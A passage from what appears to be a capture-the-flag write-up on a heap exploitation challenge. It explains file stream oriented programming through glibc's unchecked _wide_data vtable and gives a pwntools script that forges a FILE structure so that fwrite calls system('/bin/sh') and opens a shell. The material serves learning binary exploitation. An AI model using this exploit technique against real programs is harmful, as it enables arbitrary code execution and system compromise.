 ![img](images/libc_leak.png)

Everything seems to be working fine ! And remember, we now have a hold of the heap chunk that contains the
file structure data and is **STILL** being pointed to by the *choncc_file* global. So theoretically we can write our own file structure and make it so that **fwrite()** triggers a call to **system("/bin/sh")**

A prime target is the use of **vtables** in the *_IO_FILE_plus* struct. Unfortunately for us, since libc 2.24,
these vtables are stored at a specific part of the libc and is being checked to avoid anyone from putting their own vtable to call arbitrary functions in there. However we can still misalign it to execute a different standard libc function !

Luckily for us, hackers found out that the *_wide_data* attribute's vtable doesn't have any checks. Therefore if we manage to make libc use the *_wide_data* vtable, we could make it jump anywhere.

The way we do this is by using a technique described in [this article](https://blog.kylebot.net/2022/10/22/angry-FSROP/) by [kylebot](https://blog.kylebot.net).

I won't delve into details here since this is quite a complex subject but I highly suggest (if you are interested) to check out the previously mentionned articles and also the very awesome platform [pwn.college](http://pwn.college/) which has amazing material to learn more and practice file stream exploitation.

We can use the FileStructure() object in pwntools to facilitate the creation of fake file structures.
After some tinkering, this is the file structure I came up with :

```py
# get the address of our stream on the heap
stream = heap_base + 0x2f0

fp = FileStructure()
fp.flags = unpack(b" /bin/sh")              # we need " " at the start so that flags & _IO_NO_WRITES = 0
fp._IO_read_ptr = 0                         # 0 by default, for clarity. This will ensure /bin/sh ends with \x00
fp._lock = heap_base                        # we know that heap base starts with 0 so it's a valid lock
fp._IO_save_base = stream - 0x18            # so that _wide_data->vtable + 0x68 lands at fp->_IO_backup_base
fp._IO_backup_base = libc.sym.system        # allocbuf will land here calling system(fp)
fp._wide_data = stream - 0x98               # so that _wide_data->vtable lands at fp->_IO_save_base
fp.vtable = libc.sym.__io_vtables + 0x328   # this address + 0x38 will call _IO_wfile_overflow

# write our own file struct
edit_chonc(2, bytes(fp))
write_chonc_file() # trigger fwrite -> system("/bin/sh")

context.log_level = 'error'
io.interactive(prompt="shell> ")
io.close()

```
